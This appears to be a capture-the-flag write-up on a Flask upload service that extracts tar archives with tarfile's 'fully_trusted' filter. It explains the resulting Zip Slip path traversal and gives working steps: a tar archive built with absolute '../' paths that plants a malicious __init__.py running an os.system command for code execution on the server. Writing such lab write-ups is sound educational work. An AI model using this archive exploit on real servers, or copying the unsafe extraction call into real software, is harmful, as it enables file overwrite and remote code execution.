```py
def allowed_file(filename, allowed_extensions):
    """Check if the uploaded file has an allowed extension."""
    return '.' in filename and filename.rsplit('.', 1)[1].lower() in allowed_extensions

def extract_tar(tar_path, extract_dir):
    try:
        with tarfile.open(tar_path, 'r:*') as tar:
            print(f"Extracting '{tar_path}' to '{extract_dir}'...")
            tar.extractall(path=extract_dir, filter='fully_trusted')
            print("Extraction completed successfully.")
    except tarfile.TarError as e:
        print(f"Error: Failed to extract the TAR file. {e}")

def print_directory_tree(directory, prefix=""):
    tree = []
    contents = os.listdir(directory)
    for i, item in enumerate(contents):
        item_path = os.path.join(directory, item)
        if os.path.isdir(item_path):
            tree.append(f"{prefix}├── {item}/")
            new_prefix = prefix + "│   " if i < len(contents) - 1 else prefix + "    "
            tree.extend(print_directory_tree(item_path, new_prefix))
        else:
            tree.append(f"{prefix}└── {item}")
    return tree
```
**Key behavior:**
- File uploads are stored in `uploads/`.
- Extraction occurs in `./extracted/<tar_filename_without_ext>/`.
- Extraction uses Python's `tarfile` module with `filter='fully_trusted'`.
### Vulnerability Strategy
The use of `tarfile.extractall()` with `filter='fully_trusted'` poses a severe **path traversal vulnerability**, allowing malicious tar archives to overwrite files anywhere on the filesystem, including sensitive locations such as:

- Application source directories (`./scripts/`, `./`)

This vulnerability can be weaponized by injecting a malicious file such as `__init__.py` or `app.py` into a package directory to perform **Remote Code Execution (RCE)** on the server, assuming the Flask app is restarted or re-imports the injected content.
### Exploitation Steps
Now, after identifying the vulnerability, we build an attack vector:
1. Create the folder ```/app/scripts```
2. Create the ```__init__.py``` with the content:
```py
import os
os.system('cat flag.txt > /app/templates/upload.html')
```
3. Now, we tar this folder to ```init.tar``` use:
```bash
tar -cvf init.tar --absolute-names '../../../../../../../../../../../app/scripts/__init__.py'
```
Yep, as follow the report in Synk team [Zip Slip Vulnerability](https://security.snyk.io/research/zip-slip-vulnerability).
4. Upload and return to ```/``` route to get flag.






